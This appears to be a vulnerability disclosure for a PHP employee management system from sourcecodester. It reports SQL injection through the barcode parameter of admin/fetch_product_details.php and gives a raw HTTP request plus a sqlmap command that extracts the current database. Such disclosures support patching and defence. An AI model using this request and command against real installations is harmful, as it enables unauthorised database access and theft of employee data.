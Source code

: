 ## projection

Best employee Management System In Php introduction

A Best employee Management System (EMS) is a comprehensive [ software](https://www.sourcecodester.com/php/17689/best-employee-management-system-php.html#) solution designed to streamline and enhance the various functions associated with human resource management within an organization. This system serves as a pivotal tool for managing employee data, salary management, and money borrow management.

 

## download

https://www.sourcecodester.com/download-code?nid=17689&title=Best+employee+management+system+in+php

 

## effect version

latest version

 

in admin\fetch_product_details.php file ，variable  $barcode exists sql injection

![img](./01.jpg) 

 

![img](./02.jpg) 

 

python sqlmap.py -r "1.txt" --current-db



\```

POST /_hr_soft/admin/fetch_product_details.php HTTP/1.1

Host: 127.0.0.1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 17

Origin: http://127.0.0.1

Connection: close

Referer: http://127.0.0.1/_hr_soft/fetch_product_details.php

Cookie: PHPSESSID=e67pc6d6qbdep3tsoslh4uo7e2

Upgrade-Insecure-Requests: 1

Sec-Fetch-Dest: document

Sec-Fetch-Mode: navigate

Sec-Fetch-Site: same-origin

Sec-Fetch-User: ?1

Priority: u=0, i

 

barcode=1

\```

 

use Sqlmap to test:

![](./03.jpg)

 

 
